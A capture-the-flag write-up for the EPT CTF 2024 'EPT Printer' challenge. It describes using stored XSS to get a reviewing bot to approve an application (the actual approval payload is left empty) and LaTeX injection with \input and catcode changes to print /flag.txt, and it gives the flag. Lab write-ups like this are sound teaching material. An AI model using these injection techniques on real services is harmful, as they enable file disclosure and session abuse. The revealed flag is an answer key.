



# EPT Printer

author: th@m456 & Brille @ FesseMisk


## Task




### Initial analysis

EPT Print was a printing service with a Flask backend. Completed documents could be printed on-site.

To use the printer, users needed to be verified first. In addition to the Flask server, a bot ran a headless browser to open and review these applications without approving them.

The printing lets us insert text into a LaTeX template that gets sent to the printer.


### Solution

This is an onsite challenge where we must print the flag on an actual printer. To do this, we first need to get approval from a bot reviewing "approval applications".

First, we open the link provided by the EPT Box.


From here, we must log in with our Discord user. Our Discord user is connected to a personal ID card, which is required for solving a later stage of the challenge.

After logging in, we can find an "approval application" form from the menu in the top right:



By finding hints in the attached source code, I understand that we must trick the bot to accept our application automatically.

```bash
/webapp/app/templates$ cat application.html

(...)
<!-- Make it easy for the admin to click() the button by placing it at the top -->
(...)
```

The bot checks the incoming applications every 30 seconds, revealed in a `bot.py` file.

```python
APPLICATIONS_CHECK_FREQUENCY_SECONDS = int(
    os.getenv("APPLICATIONS_CHECK_FREQUENCY_SECONDS", 30)
```

I can test to see if the application form is susceptible to XSS, by attempting this line:

```html
<script>alert(XSS vulnerable!)</script>>
```

We can use XSS to make the bot accept our application upon review with this code:

```html

```



After waiting for >30 seconds, we are now approved! Now we can print stuff by using the `Printing Form`.


In the source code, we find `template.tex`, indicating that we must write our code in Latex format to get the flag. In the template file, we can also see what commands are set, and where our input will be read.

```tex
$ cat template.tex
\documentclass{article}
\usepackage{graphicx}
\usepackage{eso-pic}

\linespread{1.5}
\setlength{\parindent}{0pt}
\pagenumbering{gobble}
\title{EPT}
\author{klarz}

\AddToShipoutPictureBG*{
  \AtPageLowerLeft{
    \includegraphics[width=\paperwidth,height=\paperheight,keepaspectratio]{ept.png}
  }
}

\begin{document}

\null\hfill\begin{tabular}[t]{l@{}}
  \textbf{EPT CTF 2024} \\
  \textit{\today}
\end{tabular}

{\noindent\Large\bfseries\sffamily\color{red}{<PRINT_JOB_TITLE>}}
\vspace{3mm}

<PRINT_JOB_CONTENT>

\end{document}
```

The attached source code also has a placeholder for flag.txt, so I know the file path and name of the flag file is `/webapp/flag.txt`. The printing folder is at `/webapp/app/printing`, so we must do some traversing in our code.

The printing job is only executed if there are no errors in the Latex code. Many of my attempts gave an error indicating a math expression! So I had to ask GPT;

```
In LaTeX, the underscore character _ is a special character used for subscripts in mathematical expressions. Because of this, using an underscore directly in the text can cause errors or unexpected behavior. To include an underscore in text, you need to escape it or change its category code.
```

`\input{/flag.txt}` loads the content of `/flag.txt` as LaTeX. But since the flag file most probably just contains the flag, we don't want it to compile as a mmath expression LaTeX. Therefore we use `\catcode`\%=12` and `\catcode`\_=12`. These lines are added so that any `%` and `_` characters are not interpreted as LaTeX until printed. This proved necessary because the flag contained `_` as ChatGPT suggested.

```latex
\begingroup
\catcode`\%=12
\catcode`\_=12
\input{/flag.txt}
\endgroup
```

<details>
<summary>Flag</summary>

`EPT{Y0U_4R3_4_PR1NT3R_M4ST3R}`
</details>
